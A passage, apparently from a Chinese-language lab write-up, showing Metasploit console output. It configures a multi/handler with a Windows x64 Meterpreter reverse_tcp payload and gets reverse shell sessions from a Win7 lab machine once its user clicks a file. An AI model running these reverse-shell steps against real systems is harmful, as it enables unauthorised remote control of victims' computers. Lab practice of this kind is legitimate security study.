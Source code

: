```


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp 
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 192.168.2.131
LHOST => 192.168.2.131  
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.2.131:4444 
[*] Sending stage (201283 bytes) to 192.168.2.138
[*] Meterpreter session 1 opened (192.168.2.131:4444 -> 192.168.2.138:55190) at 2020-09-17 23:36:19 +0800

meterpreter > 
```

当win7点击之后，msf就会成功监听到会话。

![whgL2F.png](https://s1.ax1x.com/2020/09/18/whgL2F.png)

win7进程里可看到。

```
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.2.131:4444 
[*] Sending stage (201283 bytes) to 192.168.2.138
[*] Meterpreter session 3 opened (192.168.2.131:4444 -> 192.168.2.138:49171) at 2020-09-18 14:43:04 +0800

meterpreter > background 
[*] Backgrounding session 3...
msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                Connection
  --  ----  ----                     -----------                ----------
  3         meterpreter x64/windows  admin-PC\admin @ ADMIN-PC  192.168.2.131:4444 -> 192.168.2.138:49171 (192.168.2.138)

msf5 exploit(multi/handler) > 

```
